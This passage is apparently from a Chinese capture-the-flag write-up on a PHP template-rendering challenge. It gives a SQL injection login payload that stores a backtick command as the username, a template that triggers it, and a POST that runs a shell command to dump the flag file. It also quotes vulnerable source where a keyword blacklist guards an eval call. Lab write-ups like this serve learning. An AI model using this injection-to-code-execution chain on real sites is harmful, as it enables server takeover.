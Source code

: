 
构造登录，使得username为要渲染的语句（过滤了括号，函数用不了，用反引号）

```
/index.php?action=check

username=1' union select "`\$_POST[1]`",2,3;%23&password=1
```

![](https://i.loli.net/2021/11/21/hVNwvrSPWx7IE2l.png)



然后新增模版：

```
aaa.xml

aaa{{var:username}}
```

触发渲染：

```php
	case 'view':
		$user=$_SESSION['user'];
		if($user){
			templateUtil::render($_GET['page'],$user);
		}else{
			header('location:index.php?action=login');
		}
		break;
```

```
/index.php?action=view&page=aaa

POST：
1=cat /f* > /var/www/html/1.txt
```

## 512-模板渲染-Heredoc结构

登录看源源码，看到过滤了很多东西，但仍有构造的余地

```php
# render/render_class.php

public static function checkVar($templateContent,$arg){
		$db=new db();
		foreach ($arg as $key => $value) {
			if(stripos($templateContent, '{{var:'.$key.'}}')){
				if(!preg_match('/\(|\[|\`|\'|\"|\+|nginx|\)|\]|include|data|text|filter|input|file|require|GET|POST|COOKIE|SESSION|file/i', $value)){
					eval('$v='.$value.';');
					$templateContent=str_replace('{{var:'.$key.'}}', $v, $templateContent);
				}
				
			}
		}
		return $templateContent;
	}
```
